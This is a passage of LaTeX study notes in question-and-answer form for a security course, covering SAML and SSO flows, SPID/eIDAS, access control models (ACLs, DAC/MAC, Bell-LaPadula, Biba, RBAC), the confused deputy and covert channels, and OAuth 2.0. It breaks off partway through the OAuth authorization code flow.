\subsection{Define the terms "public", "private", "permission-less" and "permissioned".}
\begin{itemize}
	\item A blockchain can be Public or Private:
	\begin{itemize}
		\item \textbf{Public}: everyone can read the entire blockchain.
		\item \textbf{Private}: not everyone can read the blockchain, a restricted group of users can.
	\end{itemize}
	\item A blockchain can be Permission-less or Permissioned:
	\begin{itemize}
		\item \textbf{Permission-less}: everyone can write on the blockchain.
		\item \textbf{Permissioned}: not everyone can write the blockchain, a restricted group of users can.
	\end{itemize}
\end{itemize}

\section{Authentication II}

\subsection{What is SAML?}
\begin{itemize}
	\item \textbf{SAML} stands for \textbf{Security Assertion Markup Language}, it's a definition of \textbf{mechanisms} and \textbf{formats for the communication of identity information} between Identity Provider and Service Provider.
\end{itemize}

\subsection{What are the goals of SAML?}
\begin{itemize}
	\item The \textbf{goals} of {\tt SAML} are:
	\begin{itemize}
		\item \textbf{Creation of a trusted security statement}.
		\item \textbf{Exchange of security statements}.
	\end{itemize}
	\item SAML does \textbf{not provide}:
	\begin{itemize}
		\item \textbf{Performing authentication}.
		\item \textbf{Granting access}.
	\end{itemize}
	\item SAML is an \textbf{XML Framework} to \textbf{create} and \textbf{exchange} \textbf{Statements}, then Service Providers will decide what to do.
\end{itemize}

\subsection{What is the structure of a SAML Assertion?}
\begin{itemize}
	\item A \textbf{SAML Assertion} is a bunch of \textbf{statements} made by a SAML Authority.
	\item SAML has:
	\begin{itemize}
		\item \textbf{Issuer}
		\item \textbf{Signature}
		\item \textbf{Subject}
		\item \textbf{Condition}
		\item \textbf{AuthNStatement}
	\end{itemize}
	\item It can represent \textbf{3 types of assertion}:
	\begin{itemize}
		\item \textbf{Authentication}: subject is authenticated using X modality at Y time.
		\item \textbf{Attribute}: attributes associated to the subject.
		\item \textbf{Authorization Decision}: the authorization is \textbf{Accepted} or \textbf{Denied}.
	\end{itemize}
\end{itemize}

\subsection{What is a SAML Profile? Give also an example.}
\begin{itemize}
	\item A \textbf{SAML Profile} is a combination of \textbf{Assertion}, \textbf{Protocols} and \textbf{Bindings} to support a defined use case. This leads to \textbf{extension} and \textbf{constraints} depending from use case.
	\item An example is the (most used one) \textbf{WEB SSO}.
\end{itemize}

\subsection{What are the main security concerns underlying the deployment of SAML? What are the main mitigation measures?}
\begin{itemize}
	\item \textbf{SAML doesn't provide Confidentiality} and \textbf{Integrity}, neither \textbf{Authentication} of IdP or SP (this means someone could {\tt MITM}).
	\item To mitigate this issue, we should use {\tt SSL/TLS} to \textbf{gain} \textbf{Confidentiality} and \textbf{Integrity}, then request a \textbf{Bilateral Authentication} to obtain \textbf{Authentication} (using \textbf{SSL/TLS Certificates}).
	\item \textbf{Every message} which pass from an user should be \textbf{signed} to provide \textbf{Integrity}.
\end{itemize}

\subsection{Give a definition of Single Sign On (SSO), describe its purpose, explain one of its strengths and one of weaknesses. Draw also an high-level diagram with the involved entities.}
\begin{itemize}
	\item A \textbf{SSO} is a technique used to \textbf{access multiple apps with a single authentication act}.
	\item \textbf{SSO reduces password fatigue}, we just need to remember \textbf{one password for multiple services}, but \textbf{if} it's \textbf{compromised} we are letting someone else \textbf{enter on multiple services with a single password}.
\begin{center}
	
\includegraphics[scale=0.6]{SSO.png}
\end{center}
\end{itemize}

\subsection{What is the difference between IdP-Initiated and SP-Initiated SSO? Describe their flows providing a Message Sequence Chart.}
\begin{itemize}
	\item \textbf{IdP-Initiated SSO}: 
	\begin{itemize}
		\item The \textbf{Client logs} in to the \textbf{IdP}.
		\item The \textbf{Client select a Source} using \textbf{IdP}.
		\item The \textbf{IdP redirects} the \textbf{Client to the SP} requested, with a \textbf{signed SSO auth response} attached.
		\item The \textbf{SP supply the resource} after validating the SSO Response.
	\end{itemize}
	\begin{center}
		
\includegraphics[scale=0.6]{SSO_IDP.png}
	\end{center}
	\newpage
	\item \textbf{SP-Initiated SSO}:
	\begin{itemize}
		\item The \textbf{Client ask for a SP resource}:
		\begin{itemize}
			\item If the \textbf{resource is free} SP give to Client.
			\item If it's \textbf{protected} then check for permission.
		\end{itemize}
		\item The \textbf{SP redirect} the client \textbf{to IdP} with AuthRequest.
		\item The \textbf{Client Authenticate itself} to the \textbf{IdP}.
		\item The \textbf{IdP redirect the Client to SP} with a Signed AuthResponse.
		\item The \textbf{SP gives the resource} (if permitted).
	\end{itemize}
	\begin{center}
		
\includegraphics[scale=0.6]{SSO_SP.png}
	\end{center}
\end{itemize}

\subsection{What are the main privacy concerns underlying the deployment of SAML? What are the main mitigation measures?}
\begin{itemize}
	\item \textbf{SAML} should let the \textbf{user control how it's identity is shared and used}.
	\item \textbf{SAML} should \textbf{inhibit correlations between Service Providers}.
	\item To mitigate this, \textbf{IdP set pseudonyms} and uses \textbf{one time identifiers} so the response won't have the \textbf{same global identifier}.
\end{itemize}

\newpage

\subsection{What is SPID? What is eIDAS? Is there a relationship between the two?}
\begin{itemize}
	\item \textbf{SPID}: 
	\begin{itemize}
		\item is \textit{"Sistema Pubblico Identità Digitale"}, the Italian adaptation of SAML 2.0
		\item it adds one entity:	
		\begin{itemize}
			\item the \textbf{Attribute Provider} which \textbf{gives the Service Provider a Qualified Attribute} if asked.
		\end{itemize}
	\end{itemize}
	\item \textbf{eIDAS}:
	\begin{itemize}
		\item is \textbf{Electronic Identification Authentication} and \textbf{Trust Services}, an European regolation that let \textbf{users authenticate in all Europe}.
	\end{itemize}	 
	\item \textbf{eIDAS IdP can connect with SPID IdP using an eIDAS Connector} (Node) and an \textbf{eIDAS Service} (Node).
\end{itemize}

\subsection{Give an example of scenario in which eIDAS is useful.}
\begin{itemize}
	\item If I want to open a bank account, I need my identity verified. 
	\item If I'm italian and I'm trying to open a bank account in France, I need my SPID. 
	\item Logging with \textbf{eID National Verification System} lets servers get my identity, \textbf{asking} the Italian \textbf{IdP SPID if my Identity is {\tt OK}}. 
	\item This works by \textbf{eIDAS-Connector France}, which \textbf{ask to eIDAS-Service in Italy} to give my information to the bank.
\end{itemize}

\newpage

\section{Access Control I}

\subsection{Define the concept of “Access Control”, draw the architecture for its enforcement, explain the role of each component in the architecture and how an access control request is handled.}
\begin{itemize}
	\item \textbf{Access Control} is the act to \textbf{mediate requests} from subject to resources and check if the \textbf{access is Granted or Denied}.
	\item His architecture is \textbf{composed of}:
	\begin{itemize}
		\item \textbf{Subject} (Actor): the one who performs a request.
		\item \textbf{Request}: Access Request.
		\item \textbf{Access Control Module} (\textbf{ACM}) which is composed of:
		\begin{itemize}
			\item \textbf{Guard}: it receives an \textbf{Access Request}, then it \textbf{checks with Policies} if it's \textbf{Granted or Denied} (\textbf{Policy Decision Point}), then it \textbf{write the output} to the \textbf{Audit Log} and send the response (and grant access if granted) to the \textbf{Subject}.
			\item \textbf{Policy}: all the policies, \textbf{set of rules} which are used to determine the access to a resource.
			\item \textbf{Audit Log}: logs of all the requests and their status.
		\end{itemize}
	\end{itemize}
	\item It's important to say we have \textbf{two isolation boundaries}:
	\begin{itemize}
		\item one outside \textbf{ACM}, that doesn't permit the user to get inside, he can only talk with the Guard.
		\item one outside \textbf{Audit Log}, because logs shouldn't be edited by no one, only added by the Guard.
	\end{itemize}
	\item The \textbf{Guard authenticate the client and authorize} him/her with \textbf{policies}, giving the \textbf{resource if accepted}. For every request, Guard will \textbf{keep an Audit Log}, to post analysis if necessary.
	\item \textbf{Access Control} can be seen as a \textbf{structured approach}:
	\begin{itemize}
		\item \textbf{Policy}: set of rules.
		\item \textbf{Model}: mathematic representation of the policy (how it works).
		\item \textbf{Enforcement}: implementation of the Model (a logically correct model could lead to a vulnerable implementation, for example leading to a {\tt Smash The Stack} issue).
	\end{itemize}
	\item This helps to understand a policy and to find bugs easier.
\end{itemize}

\includegraphics[scale=0.5]{AccessControl.jpg}

\subsection{What is an Access Control Matrix? How can ACLs and Capabilities represent it? Describe the environments where they are typically used, their advantages and disadvantages with the consequences.}
\begin{itemize}
	\item An \textbf{Access Control Matrix} is a \textbf{basic model} to implement \textbf{Access Control}.
	\item It's a matrix with \textbf{subject as rows and resource as columns}. The combination cell is the permission of the subject for the requested resource.
	\item The \textbf{permission} can be:
	\begin{itemize}
		\item \textbf{O}: Own
		\item \textbf{R}: Read
		\item \textbf{W}: Write
		\item \textbf{X}: Execute
	\end{itemize}
	\item \textbf{ACL} (\textbf{Access Control List}) is an \textbf{enforcement} of the ACMatrix. It represent the matrix with a \textbf{list} that uses the \textbf{resource as a pointer}, and \textbf{each pointer leads to all the subject with their relative permissions for that resource}.
	\item \textbf{ACL} is tipically used \textbf{integrated} in the \textbf{File System}. It's easier to represent them with groups when we have a bigger user base, it's easier for the Guard to obtain the policies (Guard can check the file and check the subject permissions). ACL can lead to a bigger file if there's a lot of users that have permissions on it.
	\item \textbf{ACLs} are widely \textbf{used} in environments where the users manage the security of their own files such as Unix systems. Their \textbf{advantages} are the following:
	\begin{itemize}
		\item they are easy to understand;
		\item it is easy to answer questions as: \textit{“who has access to a resource and what is the type of access?”};
		\item they work well in distributed systems.
	\end{itemize}
	\item The \textbf{main disadvantage} is their \textbf{inefficiency} when \textbf{determining rights} if the \textbf{list is long}.
	\item \textbf{Capabilities} is an \textbf{enforcement} of the ACMatrix. It represent the matrix with a list that uses the \textbf{Subject as a pointer}, and each pointer leads to all the resources with \textbf{their relative permissions for that Subject}.
	\item The main problem with capability lists is that \textbf{changing the status of a resource can be difficult because it can be hard to find out which users have permission to access the resource}.
	\item For example, changing a program’s status so that no user may execute it can be difficult because it can be hard to find out which users have permission to execute the program.
\end{itemize}

\subsection{Explain the difference (if any) between the notions of subject, user and principal in access control.}
\begin{itemize}
	\item A \textbf{subject is a generic requester} (someone or something that is creating a request).
	\item An \textbf{user/principal is a human being} that is making a request.
\end{itemize}

\subsection{Explain the Principle of Least Privilege.}
\begin{itemize}
	\item The \textbf{Principle of the Least Priviledge} says that a \textbf{subject have to know the minimum amount of information to fullify his request}.
\end{itemize}

\subsection{Define the notions of DAC and MAC models; explain differences, advantages and disadvantages of each one. Give at least one example of the scenarios in which each one is typically used.}
\begin{itemize}
	\item \textbf{DAC}: 
	\begin{itemize}
		\item \textbf{Discretionary Access Control}
		\item The permission of the resource is set by the owner of the resource, he decides what to do, how to set (Read, Write, Execute).
		\item If we have lots of users, we can use \textbf{groups} and \textbf{ACL}.
		\item \textbf{Typically used in OS}.
		\item Advantages:
		\begin{itemize}
			\item \textbf{Flexible}: easy to understand and edit permissions.
			\item \textbf{Intuitive}
		\end{itemize}
		\item \textbf{Disadvantages}:
		\begin{itemize}
			\item \textbf{Subjective}: the owner decides who can R-W-X.
			\item The \textbf{security} is related to the \textbf{owner's skills}.
			\item \textbf{Vulnerable to Trojans}: A can send a Trojan to B and make B changes the permissions.
		\end{itemize}	 
	\end{itemize}
	\item \textbf{MAC}: 
	\begin{itemize}
		\item \textbf{Mandatory Access Control}
		\item \textbf{Used in the military}, it has \textbf{Multi-Level Security} and it uses:
		\begin{itemize}
			\item \textbf{Clearances} if referred to a Subject.
			\item \textbf{Security Label} if referred to a Resource.
		\end{itemize}
		\item Generally speaking we have \textbf{Security Levels}:
		\begin{itemize}
			\item Top Secret
			\item Secret
			\item Confidential
			\item Unclassified
		\end{itemize}
		\item Each level represents a \textbf{Trustworthiness Level} (\textbf{Clearances}) or the \textbf{Sensitivity Level} (\textbf{Security Label}) of the information.
		\item They are set in an ordinate \textbf{hierarchical set of trust}: $$ Top Secret >= Secret >= Confidential >= Unclassified $$
		\item The \textbf{Clearances} uses: $$C = ( \mbox{\textit{Security Level}}, \mbox{ \textit{Security Labels} (\textit{Need to Know})})$$
		\item \textbf{Need to Know Principle}: \textbf{Principle of the Least Privilege}.
		\item If it uses \textbf{Bell-La Padula Model}, it follows \textbf{three policies}:
		\begin{itemize}
			\item \textbf{No Read Up}: 
			\begin{itemize}
				\item Subject can read a resource if his clearance level dominates it.
				\item His \textbf{Clearance Level} is '\textbf{stronger}' (or equal) \textbf{than the Security level} and the \textbf{Resource Need to Know} is a \textbf{subset} of the \textbf{Subject Need to Know}:
				$$(\mbox{SClearance, SNeedToKnow)}>=(\mbox{RSecurityLevel, RNeedToKnow)}$$ 
				$$\mbox{SNeedToKnow} \supseteq \mbox{RNeedToKnow}$$
				\item This is needed because someone could read confidential information(on a stronger security level), using the Need To Know Principle.
			\end{itemize}		
			\newpage	 
			\item \textbf{No Write Down}: 
			\begin{itemize}
				\item Subject can write a resource if the resource Security level dominates the subject clearance.
				\item His \textbf{Clearance Level} is '\textbf{weaker}'(or equal) \textbf{than the Security Level} and the \textbf{Subject Need to Know} is a \textbf{subset} of the \textbf{Resource Need to Know}:
				$$(\mbox{SClearance, SNeedToKnow)} <= (\mbox{RSecurityLevel,RNeedToKnow)}$$
				$$\mbox{SNeedToKnow} \subseteq \mbox{RNeedToKnow}$$
				\item This is needed because someone could declassify informations.
			\end{itemize}			 
			\item \textbf{Tranquillity Principle}: 
			\begin{itemize}
				\item Nobody can arbitrary \textbf{change the Security Level}.
			\end{itemize}
		\end{itemize}
		\item \textbf{Bell-La Padula Model gives Confidentiality}.
	\end{itemize}
	\item If we use \textbf{Biba Model}, we get \textbf{Integrity} (the opposite of the Bell-La Padula model):
	\begin{itemize}
		\item \textbf{No Read Down}: we don't want \textbf{important documents} to be \textbf{influenced by less-important documents}.
		\item \textbf{No Write Up}: we don't want someone to \textbf{break integrity of important informations}.
		\item \textbf{Advantages}:
		\begin{itemize}
			\item \textbf{Not vulnerable to trojans}.
			\item All under \textbf{control}.
		\end{itemize}
		\item \textbf{Disadvantages}:
		\begin{itemize}
			\item \textbf{No flexibility}.
			\item \textbf{Information Leakages}:
			\begin{itemize}
				\item \textbf{Covert Channel} in Bell La Padula.
				\item A \textbf{covert channel} is when a \textbf{resource} (that is not meant to be a channel of communication) is \textbf{used as a channel} for communication.
			\end{itemize}
		\end{itemize}
		\item In Bell-La Padula model, a lower clearance user can create a {\tt dummy.obj}, then the \textbf{higher clearance} user changes the permission of the file. The \textbf{lower clearance} user ask to read the file. If he can't, he got a bit of information. This switch could be repeated like a $0,1$ data stream.
	\end{itemize}
\end{itemize}

\subsection{Define No Read Up and the No Write Down principles of the MAC model.}
\begin{itemize}
\item It uses \textbf{Bell-La Padula Model}, three policies:
	\begin{itemize}
		\item \textbf{No Read Up}: 
		\begin{itemize}
			\item Subject can read a resource if his clearance level dominates it.
			\item His \textbf{Clearance Level} is '\textbf{stronger}' (or equal) \textbf{than the Security level} and the \textbf{Resource Need to Know} is a \textbf{subset} of the \textbf{Subject Need to Know}:
			$$(\mbox{SClearance, SNeedToKnow)}>=(\mbox{RSecurityLevel, RNeedToKnow)}$$ 
			$$\mbox{SNeedToKnow} \supseteq \mbox{RNeedToKnow}$$
			\item This is needed because someone could read confidential information(on a stronger security level), using the Need To Know Principle.
		\end{itemize}			 
		\item \textbf{No Write Down}: 
		\begin{itemize}
			\item Subject can write a resource if the resource Security level dominates the subject clearance.
			\item His \textbf{Clearance Level} is '\textbf{weaker}'(or equal) \textbf{than the Security Level} and the \textbf{Subject Need to Know} is a \textbf{subset} of the \textbf{Resource Need to Know}:
			$$(\mbox{SClearance, SNeedToKnow)} <= (\mbox{RSecurityLevel,RNeedToKnow)}$$
			$$\mbox{SNeedToKnow} \subseteq \mbox{RNeedToKnow}$$
			\item This is needed because someone could declassify informations.
		\end{itemize}			 
		\item \textbf{Tranquillity Principle}: 
		\begin{itemize}
			\item Nobody can arbitrary \textbf{change the Security Level}.
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{What is RBAC? How does it simplify administration? Define the notion of User-Role assignment and Role-Permission assignment. Define also the notion of role hierarchy together with the mathematical properties it should satisfy. Given UA, PA and RH express the condition under which user U has permission P.}
\begin{itemize}
	\item \textbf{RBAC} is \textbf{Role Based Access Control}.
	\item \textbf{RBAC} is a \textbf{combination} of:
	\begin{itemize}
		\item \textbf{Users}: Subject requesting something.
		\item \textbf{Roles}: set of permissions.
		\item \textbf{Sessions}: 
		\begin{itemize}
			\item One or more Roles, given by context (to support the \textbf{Principle of the Least Priviledge}).
			\item A session can have only one user. 
			\item A user can have more than one session.
		\end{itemize}
		\item \textbf{Permissions}:
		\begin{itemize}
			\item Operations
			\item Object/Resource
		\end{itemize}
		\item \textbf{User-Assignment}:
		\begin{itemize}
			\item Each user can have one or multiple roles.
			\item Each role is assigned to one or more users.
		\end{itemize}
		\item \textbf{Role-Hierarchy}:
		\begin{itemize}
			\item Each role can have a sub-role.
			\item A sub-role extends the permission of the super-role.
			\item This follows this rules:
			\begin{itemize}
				\item \textbf{Reflexive}: it works for itself.
				\item \textbf{ANTISymmetric}: (role, sub-role) $=$ (sub-role, role) $\iff$ (role $=$ sub-role)
				\item \textbf{Transitive}: (role, sub-role), (sub-role, sub-sub-role) $\implies$ (role, sub-sub-role).
			\end{itemize}
		\end{itemize}
		\item \textbf{Permission-Assignment}:
		\begin{itemize}
			\item Each role has one or more permission.
			\item Each permission has one or more role.
		\end{itemize}
	\end{itemize}
	\item \textbf{User has permission if and only if there exist roles}: $$r,r' \mbox{ } | \mbox{ } (user,\mbox{ }r')\in UA  \mbox{ AND } r'\succeq r \mbox{ AND } (r,\mbox{ }p)\in PA$$
	\item There are points of \textbf{Dynamic Separation of Duty} (with sessions) and \textbf{Static Separation of Duty} (with \textbf{RH} and \textbf{UA}). This \textbf{prevents fraud}.
	\item It simplifies administration by creating roles: set of permissions that could be given to multiple user, leading to a easy to understand and easy to manage situation.
\end{itemize}

\subsection{Explain the concept of “Confused deputy” and give a concrete scenario of this attack.}
\begin{itemize}
	\item The \textbf{Confused Deputy Attack} is a priviledge escalation attack which consist in \textbf{obtaining} (\textbf{R/W/X}) \textbf{access to a resource without having direct access on it}.
	\item Basically using another user that can access a resource to obtain or write data on the resource.
	\begin{itemize}
		\item A \textbf{doesn't have access} to the \textbf{Resource F}.
		\item A \textbf{have access} to execute the \textbf{Compiler}.
		\item The \textbf{Compiler} is \textbf{OS priviledged}, so \textbf{it can RWX the resource F}.
		\item A compiles a file and sets the destination of the resource to the F path.
		\item A has now modified/overwritten F without having direct access to it.
	\end{itemize}
\end{itemize}

\subsection{What is a trojan?}
\begin{itemize}
	\item A \textbf{trojan} is a \textbf{malware} which \textbf{hides the true malevolous intentions} and runs like a safe/normal executable (Trojan Horse).
\end{itemize}

\subsection{What is a covert channel? How can a covert channel be created in MAC?}
\begin{itemize}
	\item \textbf{Covert Channel} in \textbf{Bell-La Padula}:
	\begin{itemize}
		\item  A covert channel is when a \textbf{resource} (that is not meant to be a channel of communication) is \textbf{used as a channel for communication}.
	\end{itemize}
	\item In Bell- La Padula model, a lower clearance user can create a {\tt dummy.obj}, then the \textbf{higher clearance} user changes the permission of the file:
	\begin{itemize}
		\item the \textbf{lower clearance} user ask to read the file;
		\item if he can't, he got a bit of information;
		\item this switch could be repeated like a $0.1$ data stream;
	\end{itemize}
\end{itemize}

\subsection{How access control can mitigate command injection attacks?}
\begin{itemize}
	\item \textbf{Access Control} can mitigate the command injection attacks by using the \textbf{Principle of the Least Priviledge}.
	\item \textbf{The Principle of the Least Privilege} says that a \textbf{subject have to know the minimum amount of information to fulfill his request}.
\end{itemize}

\newpage

\section{Access control II}

\subsection{Describe the purpose of OAuth 2.0 and explain what kind of security bad practice is meant to avoid. Describe also which entities are involved.}
\begin{itemize}
	\item \textbf{OAuth 2.0} is a \textbf{delegation protocol} that let users allow applications to \textbf{access resources on their behalf}.
	\item OAuth was created to avoid the bad practice of giving full access to a third part service by sharing your credentials.
	\item It's important to say that:
	\begin{itemize}
		\item \textbf{OAuth} is an \textbf{Authorization Protocol}, it's \textbf{not} an \textbf{Authentication Protocol}, although is possible to authenticate with \textbf{OpenID Connect}.
		\item \textbf{OAuth is more than one protocol} togheter.
		\item The Token format is chosen by Resource Server and Authorization Server, usually they use JWT (Json Web Token).
		\item It \textbf{relies} mainly on \textbf{HTTP} and \textbf{TLS for security}.
	\end{itemize}
	\item The \textbf{entities involved} are:
	\begin{itemize}
		\item \textbf{Resource Owner}: The owner of the resource.
		\item \textbf{Protected Resource} (usually in Resource Server): The resource which client tries to get.
		\item \textbf{Authorization Server} (\textbf{not Authentication}) : Server that generates OAUTH Token.
		\item \textbf{Client} (Third Party App): Third party app that is trying to use the resource and ask on behalf of the resource owner.
		\item \textbf{Oauth TOKEN}:
		\begin{itemize}
			\item A key to access specifically some resources.
			\item Generated by Authorization Server.
			\item Opaque for the client, he doesn't know what does it mean.
			\item Clear for the Authorization Server and Resource Server.
		\end{itemize}
	\end{itemize}
\end{itemize}

\subsection{What is an OAuth token? Is it opaque for which entity involved in OAuth?}
\begin{itemize}
	\item The \textbf{entities involved} are:
	\begin{itemize}
		\item \textbf{Resource Owner}: the owner of the resource.
		\item \textbf{Protected Resource}: the resource which Client tries to get (usually in Resource Server).
		\item \textbf{Authorization Server} (and \textbf{not Authentication}): Server that generates OAuth Token.
		\item \textbf{Client} (Third Party App): third party app that is trying to use the resource and ask on behalf of the resource owner.
		\item \textbf{OAuth TOKEN}:
		\begin{itemize}
			\item A key to access specifically some resources;
			\item Generated by Authorization Server;
			\item Opaque for the client, he doesn't know what does it mean;
			\item Clear for the Authorization Server and Resource Server.
		\end{itemize}
	\end{itemize}
\end{itemize}

\newpage

\subsection{Show the main Authorization code flow supported by OAuth 2.0 and say which kind of protocols is used for the communications among the various entities involved}
\begin{itemize}
	\item \textbf{OAuth Main Flow}:
	\begin{enumerate}
		\item \textbf{Client ask for Authorization} to the \textbf{Resource Owner}, redirecting him/her to the \textbf{Authorization Server}.
		\item \textbf{Resource Owner insert} his/her \textbf{credentials} and \textbf{authenticate} to the \textbf{Authorization Server}.
		\item The \textbf{Authorization Server ask for Resource Owner permissions}, showing what the app wants to use.
		\item The \textbf{Resource Owner confirms}, then the \textbf{Authorization Server gives to the Resource Owner an Authorization Code}.
		\item The \textbf{Resource Owner} gives the \textbf{Authorization Code to the Client}.
		\item The \textbf{Client uses} its \textbf{credentials to authenticate to the Authorization Server}, along with \textbf{Authorization Code}.
